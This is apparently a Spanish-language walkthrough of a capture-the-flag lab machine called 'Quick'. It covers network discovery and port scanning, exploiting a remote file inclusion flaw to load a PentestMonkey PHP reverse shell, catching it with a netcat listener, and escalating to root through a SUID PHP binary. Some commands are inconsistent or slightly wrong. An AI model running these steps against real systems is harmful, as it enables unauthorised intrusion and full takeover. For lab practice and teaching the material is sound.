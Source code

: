 ## MAQUINA QUICK

Usamos la netdiscover para ver las maquinas conectadas en nuestra red

```console

>netdicover -i eth0 -r 192.x.x.x/24

```

Una vez que tengamos la ip, con nmap vamos a enumerar los puertos y servicios abiertos de la misma.

```console

>nmap -p- -open -sV -sC "ip" -oN TARGET

PORT
80/tcp open http

"STATE SERVICE VERSION
Apache httpd 2.4.41 ((Ubuntu))
l_http-server-header: Apache/2.4.41 (Ubuntu)
l_http-title: Quick Automative
MAC Address: 08:00:27:41:D3:56 (Oracle VirtualBox virtual NIC)"
```

Como tenemos el puerto 80 disponible ingresamos a la pagina web.

Usamos nikto para ver si hay alguna vulnerabilidad en la web.

```console

>nikto -h "ip"

/index.php?page=http://blog.cirt.net/rfiinc.txt ?: Remote File Inclusion (RFI)
```

Tenemos una posible vuln. en la web, se trata de un RFI (remote-file-inclusion).

Aca lo que vamos a hacer es subir una RV (revershell.php) de pentestmokey a la maquina victima creando un servidor python.

```console
python3 -m http.server
```

Seguido nos ponemos en escucha con netcat al puerto que colocamos en la RV.
```console
nc -nlvp 1234
```

Ahora realizamos lo siguiente: 

Vamos a la URL de la pagina y colocamos nuestra ip + la revershell pentest monkey (http://$IP/revershell)(sin la extension).

Bien si todo salio excelente somos el usuario www-data, ahora realizamos el tratamiento de la tty:

```console
$ script /dev/null -c bash
Script started, file is /dev/null

www-data@host:/$ ^Z
zsh: suspended  nc -nlvp 443

~$> stty raw -echo; fg

[1]  + continued  nc -nlvp 443
                              reset
reset: unknown terminal type unknown
Terminal type? xterm

www-data@host:/$ export TERM=xterm
www-data@host:/$ export SHELL=bash
```

Luego vemos que permisos SUID tenemos con el siguiente formato.

```console
find / -user root -perm /4000 2>/dev/null
```
Y como resultado tenemos un archivo:

```console
/usr/bin/php7.0
```

En gtfobins encontramos la manera de escalar priv.
```console
sudo install -m =xs $(which php) .

CMD="/bin/sh"
./php -r "pcntl exec('/bin/sh', ['-p']);"

```

Y listo somo User root
